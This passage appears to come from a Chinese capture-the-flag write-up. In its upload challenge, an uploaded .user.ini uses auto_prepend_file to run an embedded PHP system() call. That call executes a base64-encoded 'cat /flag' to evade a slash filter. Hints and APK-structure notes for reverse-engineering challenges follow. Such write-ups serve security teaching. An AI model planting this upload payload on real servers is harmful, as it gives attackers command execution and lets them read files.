 ```
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundarysEFd14FeBFYsqV0l--

```

![Pasted image 20240727151529.png](/img/user/picture/Pasted%20image%2020240727151529.png)
访问对应的index.php页面
![a315a5b175bd501e09b4214e87b1fe2.png](/img/user/picture/a315a5b175bd501e09b4214e87b1fe2.png)
发现id可以执行

替换.user.ini内容为
```
auto_prepend_file=.user.ini
; <?php system('echo Y2F0IC9mbGFn | base64 -d | sh');?>
```
经测试上传内容会过滤符号`/`，所以可以进行一下编码
![3b6d185afe3d2940352ce3afad73d73.png](/img/user/picture/3b6d185afe3d2940352ce3afad73d73.png)

拿到flag
![Pasted image 20240727151915.png](/img/user/picture/Pasted%20image%2020240727151915.png)


# 九龙吐水

```hint
罗霄：少侠可知，CE (Cheat Engine) 乃一开源之内存扫描与调试神器。此利器常用于篡改单机游戏之数值，譬如生命值、金钱等。其原理乃通过扫描游戏进程之内存数据，精准定位并修改特定内存地址 ，以达成修改游戏数据之目的。此物妙用无穷，然需谨慎使用，方能恰如其分。
```

提示说可以用CE，这个方法已经做出来了，感觉太简单，就不过多整理了


废了，IDA不会用


# 葛仙炼丹

```hint
葛仙翁：君可曾备有jd-gui之神器？此物可助吾等解密代码，洞悉其间玄机，若有此神器相助，必能事半功倍，解开眼前之难题。
```


**直接解压apk文件，可以查看assets、res等信息。**
~~我也是才知道apk文件可以直接解压~~

- assets
    - 资源文件，如声音、字体等等。
    - 代码中使用AssetsManager获取Assets文件夹的资源。
- lib
    - 存放用C/C++编写的，用NDK编译生成的so文件，供java/kotlin端调用。
- META-INF
    - 存放apk签名信息，用来保证包的完整性和系统的安全。
    - 在IDE编译生成一个apk包时，会对里面所有的文件做一个校验计算，并把计算结果存放在META-INF文件夹内，apk在安装的时候，系统会按照同样的算法对apk包里面的文件做校验，如果结果与META-INF里面的值不一样，系统就不会安装这个apk，这就保证了apk包里的文件不能被随意替换。比如拿到一个apk包后，如果想要替换里面的一幅图片，一段代码， 或一段版权信息，想直接解压缩、替换再重新打包，基本是不可能的。如此一来就给病毒感染和恶意修改增加了难度，有助于保护系统的安全。
- res
    - 存放资源文件，包括icon，xml文件
- AndroidManifest.xml
    - 应用配置文件，每个应用都必须定义和包含，它描述了应用的名字、版本、权限、引用的库等。
- classes.dex
    - 可以直接在Dalvik虚拟机上加载运行的文件，由java/kotlin文件经过IDE编译生成。
    - Dalvik虚拟机的指令码不是标准的Jvm指令码，而是使用了自己独有的一套指令集（类似汇编语言）。
    - dex文件中共用了很多类名称，常量字符串，使它的体积更小，运行效率更高。